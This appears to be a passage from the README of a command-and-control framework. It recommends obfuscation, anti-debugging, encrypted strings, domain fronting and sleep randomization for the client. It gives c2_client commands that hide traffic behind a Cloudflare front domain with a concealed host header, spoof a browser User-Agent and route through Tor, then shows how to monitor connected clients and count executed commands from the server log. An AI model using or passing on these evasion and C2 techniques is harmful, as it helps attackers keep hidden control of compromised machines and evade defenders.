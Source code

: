 ```toml
```

## 🔐 Security Hardening

### **Server Security**
```bash
# 1. Use TLS/SSL termination
# 2. Implement IP whitelisting
# 3. Use strong RSA keys (4096-bit for high security)
# 4. Regular key rotation
# 5. Encrypted log storage
# 6. Rate limiting
```

### **Client Security**
```bash
# 1. Code obfuscation
# 2. Anti-debugging techniques
# 3. Encrypted strings
# 4. Domain fronting
# 5. Sleep randomization
```

### **Network Security**
```bash
# Use domain fronting
./c2_client --server cdn.cloudflare.com --host-header your-hidden-domain.com

# Use custom User-Agent
./c2_client --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)..."

# Proxy support
./c2_client --proxy socks5://127.0.0.1:9050  # Tor
```

## 📊 Monitoring and Logging

### **Server Monitoring**
```bash
# Real-time client monitoring
tail -f /var/log/c2_server.log | grep "CONNECT\|DISCONNECT\|COMMAND"

# Client statistics
curl -s http://localhost:4444/api/stats | jq '.'
```

### **Log Analysis**
```bash
# Parse connection logs
awk '/CONNECT/ {print $1, $2, $4}' c2_server.log

# Command execution statistics
grep "COMMAND_RESULT" c2_server.log | wc -l

# Error analysis
grep "ERROR\|FAIL" c2_server.log | tail -20
```
